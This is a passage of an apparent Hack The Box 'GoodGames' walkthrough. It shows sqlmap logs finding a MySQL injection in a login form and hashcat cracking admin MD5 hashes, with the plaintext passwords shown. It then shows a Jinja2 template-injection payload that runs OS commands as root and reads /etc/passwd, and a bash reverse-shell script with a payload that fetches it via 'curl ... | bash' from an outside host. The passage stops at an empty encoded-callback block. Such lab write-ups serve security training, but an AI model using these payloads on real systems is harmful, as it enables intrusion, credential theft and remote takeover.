|___|_  [(]_|_|_|__,|  _|                                                                                                                                                            
      |_|V...       |_|   https://sqlmap.org                                                                                                                                         
                                                                                                                                                                                     
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and fede
ral laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program                                                                     
                                                                                                                                                                                     
[*] starting @ 13:04:24 /2022-12-22/                                                                                                                                                 
                                                                                                                                                                                     
custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q] Y                                                                                               
[13:04:27] [INFO] testing connection to the target URL                                                                                                                               
[13:04:28] [INFO] checking if the target is protected by some kind of WAF/IPS                                                                                                        
[13:04:28] [INFO] testing if the target URL content is stable                                                                                                                        
[13:04:28] [WARNING] target URL content is not stable (i.e. content differs). sqlmap will base the page comparison on a sequence matcher. If no dynamic nor injectable parameters are
 detected, or in case of junk results, refer to user's manual paragraph 'Page comparison'                                                                                            
how do you want to proceed? [(C)ontinue/(s)tring/(r)egex/(q)uit] C                                                                                                                   
[13:04:42] [INFO] testing if (custom) POST parameter '#1*' is dynamic                                                                                                                
[13:04:43] [WARNING] (custom) POST parameter '#1*' does not appear to be dynamic                                                                                                     
[13:04:43] [WARNING] heuristic (basic) test shows that (custom) POST parameter '#1*' might not be injectable                                                                         
[13:04:43] [INFO] testing for SQL injection on (custom) POST parameter '#1*'                                                                                                         
[13:04:43] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'                                                                                                         
[13:04:44] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'                                                                                                 
[13:04:45] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'                                                                 
[13:04:45] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'                                                                                                      
[13:04:45] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'                                                                                
[13:04:46] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'                                                                                                
[13:04:46] [INFO] testing 'Generic inline queries'                                                                                                                                   
[13:04:46] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'                                                                                                               
[13:04:46] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'                                                                                                    
[13:04:47] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'                                                                                             
[13:04:47] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'                                                                                                       
[13:04:47] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'                                                                                                                    
[13:04:47] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind (IF)'                                                                                                        
[13:04:48] [INFO] testing 'Oracle AND time-based blind'                                                                                                                              
it is recommended to perform only basic UNION tests if there is not at least one other (potential) technique found. Do you want to reduce the number of requests? [Y/n] Y            
[13:04:54] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'                                                                                                             
[13:04:54] [WARNING] (custom) POST parameter '#1*' does not seem to be injectable                                                                                                    
[13:04:54] [INFO] testing if (custom) POST parameter '#2*' is dynamic                                                                                                                
[13:04:54] [WARNING] (custom) POST parameter '#2*' does not appear to be dynamic                                                                                                     
[13:04:55] [WARNING] heuristic (basic) test shows that (custom) POST parameter '#2*' might not be injectable
[13:04:55] [INFO] testing for SQL injection on (custom) POST parameter '#2*'                                                                                                         
[13:04:55] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[13:04:55] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[13:04:56] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[13:04:56] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[13:04:56] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[13:04:57] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[13:04:57] [INFO] testing 'Generic inline queries'
[13:04:57] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[13:04:57] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[13:04:57] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[13:04:58] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[13:04:58] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'
[13:04:58] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind (IF)'
[13:04:59] [INFO] testing 'Oracle AND time-based blind'
[13:04:59] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[13:05:00] [WARNING] (custom) POST parameter '#2*' does not seem to be injectable
[13:05:00] [INFO] testing if (custom) POST parameter '#3*' is dynamic
[13:05:00] [WARNING] (custom) POST parameter '#3*' does not appear to be dynamic
[13:05:00] [WARNING] heuristic (basic) test shows that (custom) POST parameter '#3*' might not be injectable
[13:05:00] [INFO] testing for SQL injection on (custom) POST parameter '#3*'
[13:05:00] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[13:05:01] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[13:05:01] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[13:05:01] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[13:05:01] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[13:05:02] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[13:05:02] [INFO] testing 'Generic inline queries'
[13:05:02] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[13:05:02] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[13:05:03] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[13:05:03] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[13:05:03] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'
[13:05:04] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind (IF)'
[13:05:04] [INFO] testing 'Oracle AND time-based blind'
[13:05:04] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[13:05:05] [WARNING] (custom) POST parameter '#3*' does not seem to be injectable
[13:05:05] [INFO] testing if (custom) POST parameter '#4*' is dynamic
[13:05:05] [WARNING] (custom) POST parameter '#4*' does not appear to be dynamic
[13:05:05] [WARNING] heuristic (basic) test shows that (custom) POST parameter '#4*' might not be injectable
[13:05:05] [INFO] testing for SQL injection on (custom) POST parameter '#4*'
[13:05:05] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[13:05:06] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[13:05:06] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[13:05:06] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[13:05:07] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[13:05:07] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[13:05:07] [INFO] testing 'Generic inline queries'
[13:05:07] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[13:05:08] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[13:05:08] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[13:05:08] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[13:05:09] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'
[13:05:09] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind (IF)'
[13:05:09] [INFO] testing 'Oracle AND time-based blind'
[13:05:09] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[13:05:10] [WARNING] (custom) POST parameter '#4*' does not seem to be injectable
[13:05:10] [CRITICAL] all tested parameters do not appear to be injectable. Try to increase values for '--level'/'--risk' options if you wish to perform more tests. If you suspect t
hat there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment') and/or switch '--random-agent'


```

💉 **login** 💉

```
[ 12:23PM ]  [ ops@redteam:~/Documents/PT/HTB-goodgames/data ]                                                                                                                      
 $ sqlmap -u "http://goodgames.htb/login" --data "email=*&password=*"                                                                                                               
        ___                                                                                                                                                                         
       __H__                                                                                                                                                                        
 ___ ___[']_____ ___ ___  {1.6.12#stable}                                                                                                                                           
|_ -| . [.]     | .'| . |                                                                                                                                                           
|___|_  [.]_|_|_|__,|  _|                                                                                                                                                           
      |_|V...       |_|   https://sqlmap.org                                                                                                                                        
                                                                                                                                                                                    
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and fed
eral laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program                                                                   
                                                                                                                                                                                    
[*] starting @ 12:34:25 /2022-12-22/                                                                                                                                                
                                                                                                                                                                                    
custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q] Y                                                                                              
[12:34:28] [INFO] testing connection to the target URL                                                                                                                              
[12:34:29] [INFO] testing if the target URL content is stable                                                                                                                       
[12:34:29] [INFO] target URL content is stable                                                                                                                                      
[12:34:29] [INFO] testing if (custom) POST parameter '#1*' is dynamic                                                                                                               
[12:34:29] [WARNING] (custom) POST parameter '#1*' does not appear to be dynamic                                                                                                    
[12:34:30] [WARNING] heuristic (basic) test shows that (custom) POST parameter '#1*' might not be injectable                                                                        
[12:34:30] [INFO] testing for SQL injection on (custom) POST parameter '#1*'                                                                                                        
[12:34:30] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'                                                                                                        
[12:34:31] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'                                                                                                
[12:34:31] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'                                                                
[12:34:31] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'                                                                                                     
[12:34:31] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'                                                                               
[12:34:32] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'                                                                                               
[12:34:32] [INFO] testing 'Generic inline queries'                                                                                                                                  
[12:34:32] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'                                                                                                              
[12:34:32] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'                                                                                                   
[12:34:33] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[12:34:33] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[12:34:43] [INFO] (custom) POST parameter '#1*' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] n
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[12:34:58] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[12:34:58] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[12:34:58] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[12:34:58] [INFO] target URL appears to have 4 columns in query
got a refresh intent (redirect like response common to login pages) to '/profile'. Do you want to apply it from now on? [Y/n] n
[12:35:05] [INFO] (custom) POST parameter '#1*' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
(custom) POST parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
[12:35:11] [INFO] testing if (custom) POST parameter '#2*' is dynamic
[12:35:11] [WARNING] (custom) POST parameter '#2*' does not appear to be dynamic
[12:35:11] [WARNING] heuristic (basic) test shows that (custom) POST parameter '#2*' might not be injectable
[12:35:11] [INFO] testing for SQL injection on (custom) POST parameter '#2*'
[12:35:11] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[12:35:12] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[12:35:12] [INFO] testing 'Generic inline queries'
[12:35:12] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[12:35:12] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[12:35:12] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[12:35:13] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[12:35:13] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[12:35:13] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[12:35:13] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[12:35:14] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[12:35:14] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'
[12:35:14] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind (IF)'
[12:35:15] [INFO] testing 'Oracle AND time-based blind'
it is recommended to perform only basic UNION tests if there is not at least one other (potential) technique found. Do you want to reduce the number of requests? [Y/n] Y
[12:35:22] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[12:35:25] [WARNING] (custom) POST parameter '#2*' does not seem to be injectable
sqlmap identified the following injection point(s) with a total of 173 HTTP(s) requests:
---
Parameter: #1* ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: email=' AND (SELECT 1612 FROM (SELECT(SLEEP(5)))OMJn) AND 'asXf'='asXf&password=

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: email=' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x71716b7871,0x6556565a707445516e4f50797659665a524c546b464a4b48756462794871444b7955445079645357,0x7178716a71)-- -&password=
---
[12:35:25] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[12:35:25] [INFO] fetched data logged to text files under '/home/ops/.local/share/sqlmap/output/goodgames.htb'

[*] ending @ 12:35:25 /2022-12-22/
```

Checking who we are running as and if we are a DBA
```
[ 12:36PM ]  [ ops@redteam:~/Documents/PT/HTB-goodgames/data ]
 $ sqlmap -u "http://goodgames.htb/login" --data "email=*&password=*" --current-user --is-dba   
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.6.12#stable}
|_ -| . [(]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 12:45:19 /2022-12-22/

custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q] Y
[12:45:21] [INFO] resuming back-end DBMS 'mysql' 
[12:45:21] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: #1* ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: email=' AND (SELECT 1612 FROM (SELECT(SLEEP(5)))OMJn) AND 'asXf'='asXf&password=

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: email=' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x71716b7871,0x6556565a707445516e4f50797659665a524c546b464a4b48756462794871444b7955445079645357,0x7178716a71)-- -&password=
---
[12:45:22] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[12:45:22] [INFO] fetching current user
got a refresh intent (redirect like response common to login pages) to '/profile'. Do you want to apply it from now on? [Y/n] n
current user: 'main_admin@localhost'
[12:45:27] [INFO] testing if current user is DBA
[12:45:27] [INFO] fetching current user
[12:45:27] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
current user is DBA: False
[12:45:27] [INFO] fetched data logged to text files under '/home/ops/.local/share/sqlmap/output/goodgames.htb'

[*] ending @ 12:45:27 /2022-12-22/

```

Checking user privileges; and if we can obtain users and passwords
```
[ 12:46PM ]  [ ops@redteam:~/Documents/PT/HTB-goodgames/data ]                                                                                                                       
 $ sqlmap -u "http://goodgames.htb/login" --data "email=*&password=*" --privileges --users --passwords                                                                               
        ___                                                                                                                                                                          
       __H__                                                                                                                                                                         
 ___ ___[']_____ ___ ___  {1.6.12#stable}
|_ -| . ["]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 12:49:56 /2022-12-22/

custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q] Y
[12:49:58] [INFO] resuming back-end DBMS 'mysql' 
[12:49:58] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: #1* ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: email=' AND (SELECT 1612 FROM (SELECT(SLEEP(5)))OMJn) AND 'asXf'='asXf&password=

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: email=' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x71716b7871,0x6556565a707445516e4f50797659665a524c546b464a4b48756462794871444b7955445079645357,0x7178716a71)-- -&passwor
d=
---
[12:49:59] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[12:49:59] [INFO] fetching database users
got a refresh intent (redirect like response common to login pages) to '/profile'. Do you want to apply it from now on? [Y/n] n
database management system users [1]:
[*] 'main_admin'@'localhost'

[12:50:01] [INFO] fetching database users password hashes
[12:50:02] [WARNING] something went wrong with full UNION technique (could be because of limitation on retrieved number of entries). Falling back to partial UNION technique
[12:50:03] [WARNING] the SQL query provided does not return any output
[12:50:03] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
[12:50:03] [WARNING] the SQL query provided does not return any output
[12:50:03] [INFO] fetching database users
[12:50:03] [INFO] fetching number of password hashes for user 'main_admin'
[12:50:03] [WARNING] time-based comparison requires larger statistical model, please wait.................. (done)                                                                  
[12:50:04] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 

[12:50:04] [INFO] retrieved: 
[12:50:05] [WARNING] unable to retrieve the number of password hashes for user 'main_admin'
[12:50:05] [ERROR] unable to retrieve the password hashes for the database users
[12:50:05] [INFO] fetching database users privileges
database management system users privileges:
[*] 'main_admin'@'localhost' [1]:
    privilege: USAGE

[12:50:05] [INFO] fetched data logged to text files under '/home/ops/.local/share/sqlmap/output/goodgames.htb'

[*] ending @ 12:50:05 /2022-12-22/

```

### Hash Cracking

```
PS D:\hashcat-6.2.6> .\hashcat -m 0 .\input\goodgames.htb.txt '.\dictionaries\*' -r ..\hashcat\rules\* -o cracked-md5-goodgames-rockyou-all_rules -O -w3 --status
hashcat (v6.2.6-129-g18fcf28d6) starting

* Device #1: WARNING! Kernel exec timeout is not disabled.
             This may cause "CL_OUT_OF_RESOURCES" or related errors.
             To disable the timeout, see: https://hashcat.net/q/timeoutpatch
* Device #2: WARNING! Kernel exec timeout is not disabled.
             This may cause "CL_OUT_OF_RESOURCES" or related errors.
             To disable the timeout, see: https://hashcat.net/q/timeoutpatch
CUDA API (CUDA 12.0)
====================
* Device #1: NVIDIA GeForce GTX 1070, 7231/8191 MB, 15MCU

OpenCL API (OpenCL 3.0 CUDA 12.0.70) - Platform #1 [NVIDIA Corporation]
=======================================================================
* Device #2: NVIDIA GeForce GTX 1070, skipped

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 31

Hashes: 2 digests; 2 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 77

Optimizers applied:
* Optimized-Kernel
* Zero-Byte
* Precompute-Init
* Meet-In-The-Middle
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Salt
* Raw-Hash

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 1473 MB

Dictionary cache hit:
* Filename..: .\dictionaries\rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 1104517568

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
Hash.Target......: .\input\goodgames.htb.txt
Time.Started.....: Thu Dec 22 13:21:36 2022 (1 sec)
Time.Estimated...: Thu Dec 22 13:21:37 2022 (0 secs)
Kernel.Feature...: Optimized Kernel
Guess.Base.......: File (.\dictionaries\rockyou.txt)
Guess.Mod........: Rules (..\hashcat\rules\best64.rule)
Guess.Queue......: 1/95 (1.05%)
Speed.#1.........:  1082.1 MH/s (62.14ms) @ Accel:512 Loops:77 Thr:512 Vec:1
Recovered........: 2/2 (100.00%) Digests (total), 2/2 (100.00%) Digests (new)
Progress.........: 605677919/1104517568 (54.84%)
Rejected.........: 125279/605677919 (0.02%)
Restore.Point....: 3933082/14344384 (27.42%)
Restore.Sub.#1...: Salt:0 Amplifier:0-77 Iteration:0-77
Candidate.Engine.: Device Generator
Candidates.#1....: se7ven1985 -> gllabe
Hardware.Mon.#1..: Temp: 35c Fan: 27% Util: 43% Core:1759MHz Mem:3802MHz Bus:16
Started: Thu Dec 22 13:21:27 2022
Stopped: Thu Dec 22 13:21:38 2022
PS D:\hashcat-6.2.6>
```

**Cracked Hashes**
Important - the 'Register' user was created when performing tests and is not initial DB account
```
Database: main
Table: user
[2 entries]
+----+----------+---------------------+----------------------------------+--------------------+
| id | name     | email               | password                         | password           |
+----+----------+---------------------+----------------------------------+--------------------+
| 1  | admin    | admin@goodgames.htb | 2b22337f218b2d82dfc3b6f77e7cb8ec | superadministrator |
| 2  | Register | register@form.com   | 2c103f2c4ed1e59c0b4e2e01821770fa | Password123!       |
+----+----------+---------------------+----------------------------------+--------------------+
```


#### SSTI Found

http://internal-administration.goodgames.htb/settings - profile input returns "49" when `{{7*7}}` is entered into the name field.

_Burp Request_
```
POST /settings HTTP/1.1
Host: internal-administration.goodgames.htb
Content-Length: 117
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://internal-administration.goodgames.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.95 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://internal-administration.goodgames.htb/settings
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: session=.eJwljktOBDEMBe-SNYvEv3bmMi3bsQVCAql7ZoW4O5HY1avNq5921pX3e3s8r1e-tfNjtUc7oFwhMNyS6xiEBrS8V1-91EthBKuWqIrV4tU5aXiSibp4hjvYqo6aIMAsmgtr4xDuAGO6TRp4IHkcyTi4z-qCpsmzitoOed15_deMPeO-6nx-f-bXFgyYSNOiA6VWHNNFtOY-97moAiyWD2u_fzwQQBA.Y6yIMg.JLNfPtFg1GrUQOZWAzokl8xXdEY
Connection: close

name=%7B%7Brequest.application.__globals__.__builtins__.__import__%28%27os%27%29.popen%28%27id%27%29.read%28%29%7D%7D
```
Response in body provides `uid=0(root) gid=0(root) groups=0(root)`

Modifying the `id` command to be `ip a`, we get the following:
```
1: lo: &lt;LOOPBACK,UP,LOWER_UP&gt; mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
5: eth0@if6: &lt;BROADCAST,MULTICAST,UP,LOWER_UP&gt; mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:13:00:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.19.0.2/16 brd 172.19.255.255 scope global eth0
       valid_lft forever preferred_lft forever
```
Modifying the `id` command to be `ip r`, we get the following:
```
default via 172.19.0.1 dev eth0 
172.19.0.0/16 dev eth0 proto kernel scope link src 172.19.0.2
```
Modifying the `id` command to be `ls -la`, we get the following:
```
drwxr-xr-x 1 root root 4096 Nov  5  2021 .
drwxr-xr-x 1 root root 4096 Nov  5  2021 ..
-rw-r--r-- 1 root root  122 Nov  3  2021 Dockerfile
drwxr-xr-x 1 root root 4096 Nov  3  2021 project
-rw-r--r-- 1 root root  208 Nov  3  2021 requirements.txt
```
Modifying the `id` command to be `cat requirements.txt`, we get the following:
```
flask==2.0.1
flask_login==0.5.0
flask_migrate==3.1.0
flask_wtf==0.15.1
flask_sqlalchemy==2.5.1
sqlalchemy==1.4.23
email_validator==1.1.3
python-decouple==3.4
gunicorn==20.1.0
jinja2==3.0.1
flask-restx==0.5.1
```
Modifying the `id` command to be `pwd`, we get the following:
```
/backend
```
Modifying the `id` command to be `ls -la ../`, we get the following:
```
                                total 88
drwxr-xr-x   1 root root 4096 Nov  5  2021 .
drwxr-xr-x   1 root root 4096 Nov  5  2021 ..
-rwxr-xr-x   1 root root    0 Nov  5  2021 .dockerenv
drwxr-xr-x   1 root root 4096 Nov  5  2021 backend
drwxr-xr-x   1 root root 4096 Nov  5  2021 bin
drwxr-xr-x   2 root root 4096 Oct 20  2018 boot
drwxr-xr-x   5 root root  340 Dec 28 17:02 dev
drwxr-xr-x   1 root root 4096 Nov  5  2021 etc
drwxr-xr-x   1 root root 4096 Nov  5  2021 home
drwxr-xr-x   1 root root 4096 Nov 16  2018 lib
drwxr-xr-x   2 root root 4096 Nov 12  2018 lib64
drwxr-xr-x   2 root root 4096 Nov 12  2018 media
drwxr-xr-x   2 root root 4096 Nov 12  2018 mnt
drwxr-xr-x   2 root root 4096 Nov 12  2018 opt
dr-xr-xr-x 173 root root    0 Dec 28 17:02 proc
drwx------   1 root root 4096 Nov  5  2021 root
drwxr-xr-x   3 root root 4096 Nov 12  2018 run
drwxr-xr-x   1 root root 4096 Nov  5  2021 sbin
drwxr-xr-x   2 root root 4096 Nov 12  2018 srv
dr-xr-xr-x  13 root root    0 Dec 28 17:02 sys
drwxrwxrwt   1 root root 4096 Nov  5  2021 tmp
drwxr-xr-x   1 root root 4096 Nov 12  2018 usr
drwxr-xr-x   1 root root 4096 Nov 12  2018 var
```
Modifying the `id` command to be `cat /etc/passwd`, we get the following:
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/bin/false
```
Modifying the `id` command to be `ls -la /root`, we get the following:
```
total 20
drwx------ 1 root root 4096 Nov  5  2021 .
drwxr-xr-x 1 root root 4096 Nov  5  2021 ..
lrwxrwxrwx 1 root root    9 Nov  5  2021 .bash_history -&gt; /dev/null
-rw-r--r-- 1 root root  570 Jan 31  2010 .bashrc
drwx------ 3 root root 4096 Nov  5  2021 .cache
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
```

** Exploiting to a reverse shell **
Host a file containing the callback:
```
[  4:30PM ]  [ ops@redteam:~/Documents/PT/HTB-goodgames/data/payloads ]
 $ cat revershell 
#!/bin/bash
bash -c "bash -i >& /dev/tcp/10.10.14.6/9001 0>&1"%                                                                                                                                                                                                        
[  4:30PM ]  [ ops@redteam:~/Documents/PT/HTB-goodgames/data/payloads ]
 $ python -m SimpleHTTPServer 8000
Serving HTTP on 0.0.0.0 port 8000 ...
```
Now start up a listener to catch the callback
```
[  4:30PM ]  [ ops@redteam:~/Documents/PT/HTB ]
 $ rlwrap nc -lnvp 9001
listening on [any] 9001 ...
```
Encode the callback using URL Encoding
Callback (unencoded)
```
{{request.application.__globals__.__builtins__.__import__('os').popen('curl 10.10.14.6:8000/revershell | bash').read()}}
```
Callback (encoded)
```
